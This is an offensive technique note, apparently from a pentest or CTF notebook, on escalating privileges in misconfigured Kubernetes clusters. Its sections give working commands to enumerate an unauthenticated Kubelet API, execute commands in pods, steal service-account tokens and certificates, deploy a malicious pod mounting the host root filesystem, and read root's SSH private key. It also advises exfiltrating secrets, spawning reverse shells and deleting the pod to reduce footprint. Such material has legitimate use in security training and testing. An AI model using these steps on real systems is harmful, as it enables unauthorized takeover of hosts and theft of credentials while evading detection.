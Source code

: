 ### 1. Technique Name:

Kubernetes – Exploiting Kubelet and API Misconfigurations for Privilege Escalation
### 2. Summary:

Kubernetes (K8s) is a powerful open-source container orchestration platform that simplifies deployment, scaling, and management of containerized applications. However, when misconfigured, especially in real-world enterprise deployments or CTF-like environments, it can lead to privilege escalation paths. This technique focuses on enumerating accessible pods via the Kubelet API, extracting sensitive credentials, and creating privileged containers to mount the host’s root filesystem.
### 3. Conditions / Requirements:

- Access to an exposed Kubernetes environment    
- Accessible and unauthenticated (or weakly authenticated) Kubelet API (`port 10250`)
- Ability to query or interact with the Kubernetes API server (`port 6443`)
- A pod running with service account tokens readable from `/var/run/secrets/...`
- Permissions to list/create pods using the stolen token
- `kubeletctl` binary (optional, for convenience)
### 4. Enumeration Steps:
#### A. Identify Kubelet and API server:

```bash
# Detect Kubernetes API Server
curl -k https://<target-ip>:6443

# Detect Kubelet API (no auth)
curl -k https://<target-ip>:10250/pods
```
#### B. Install and use kubeletctl:

```bash
kubeletctl -i --server <target-ip> pods
```
#### C. Scan for RCE support:

```bash
kubeletctl -i --server <target-ip> scan rce
```
#### D. Interact with vulnerable pod:

```bash
kubeletctl -i --server <target-ip> exec "id" -p <pod-name> -c <container-name>
```
#### E. Extract service account token and certificate:

```bash
kubeletctl -i --server <target-ip> exec "cat /var/run/secrets/kubernetes.io/serviceaccount/token" -p <pod> -c <container> > k8.token

kubeletctl --server <target-ip> exec "cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt" -p <pod> -c <container> > ca.crt
```
### 5. Exploitation Steps:
#### A. Use extracted token to list permissions:

```bash
export token=$(cat k8.token)
kubectl --token=$token --certificate-authority=ca.crt --server=https://<api-server-ip>:6443 auth can-i --list
```
#### B. Prepare a malicious pod manifest (`privesc.yaml`) to mount host root (`/`) into container:

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: privesc
  namespace: default
spec:
  containers:
  - name: privesc
    image: nginx:1.14.2
    volumeMounts:
    - mountPath: /root
      name: mount-root-into-mnt
  volumes:
  - name: mount-root-into-mnt
    hostPath:
       path: /
  automountServiceAccountToken: true
  hostNetwork: true
```
#### C. Create the pod:

```bash
kubectl --token=$token --certificate-authority=ca.crt --server=https://<api-server-ip>:6443 apply -f privesc.yaml
```
#### D. Verify and interact:

```bash
kubectl --token=$token --certificate-authority=ca.crt --server=https://<api-server-ip>:6443 get pods
kubeletctl --server <target-ip> exec "id" -p privesc -c privesc
```
#### E. Extract sensitive host data (e.g., root SSH key):

```bash
kubeletctl --server <target-ip> exec "cat /root/root/.ssh/id_rsa" -p privesc -c privesc
```
### 6. Post-Exploitation Tips:

- Exfiltrate secrets or SSH keys    
- Use mounted `/root` path to dump other credentials or files
- Spawn reverse shells from within privileged pod
- Cleanup malicious pod to reduce footprint:

```bash
kubectl --token=$token --certificate-authority=ca.crt --server=https://<api-server-ip>:6443 delete pod privesc
```
### 7. Example / Notes:

- Example of vulnerable unauthenticated access:    

```bash
curl https://<ip>:10250/pods -k | jq .
```

- Example kubeletctl usage:

```bash
kubeletctl -i --server <ip> exec "id" -p nginx -c nginx
```

- Example token extraction:

```bash
kubeletctl -i --server <ip> exec "cat /var/run/secrets/kubernetes.io/serviceaccount/token" -p nginx -c nginx > k8.token
```
# Tags
> #Linux-Post-Exploitation #Linux-Privesc #Kubernetes